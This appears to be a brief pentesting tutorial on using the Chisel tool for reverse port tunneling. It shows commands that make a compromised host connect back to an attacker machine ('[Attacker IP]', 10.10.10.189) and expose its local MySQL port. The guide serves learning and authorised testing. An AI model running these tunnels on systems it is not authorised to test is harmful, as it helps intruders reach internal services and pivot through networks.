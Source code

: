 # Introduction
Chisel is an open-source application for port tunneling. You can get it from https://github.com/jpillora/chisel. Clone the repo and follow the installation instructions.

In order to port tunnel with chisel, you need to have a copy of the binary on both the attacking and the compromised machines.

# Creating a reverse tunnel
Run the following command on the attacking machine:
```bash
chisel server -p [Listen Port] --reverse &
```

This will setup a chisel server on `Listen Port`.

On the compromised systenm run:
```bash
chisel client [Attacker IP]:[Listen Port] R:[Local Host]:[Local Port]:[Remote Host]:[Remote Port] &
```

This will endeavour to connect to a chisel server at the specified `Attacker IP` and `Listen Port`. Once it has connected to the remote chisel server, the chisel server will open `Remote Port` on the `Remote Host` and tunnel it to the `Local Port` of `Local Host`. From now on, any traffic sent to `Remote Port` on the `Remote Host` will be forwarded to the `Local Port` of `Local Host`. 

Chisel also defines some defaults for these values, which means you can omit some of them:

`Local Host` - 0.0.0.0
`Remote Host` - 0.0.0.0 (server localhost)

As an example, suppose you start a chisel server on your attacking machine (10.10.10.189) on port 1337, and want to gain access to port 3306 on the compromised machine. On the attacking machine you run:

```bash
chisel server -p 1337 --reverse &
```

On the compromised system you will run:
```bash
chisel client 10.10.10.189:1337 R:localhost:3306:localhost:31337 &
```

The above basically translates to "Forward any traffic intended for port 31337 localhost on my attacking machine to port 3306 on the localhost of the compromised system".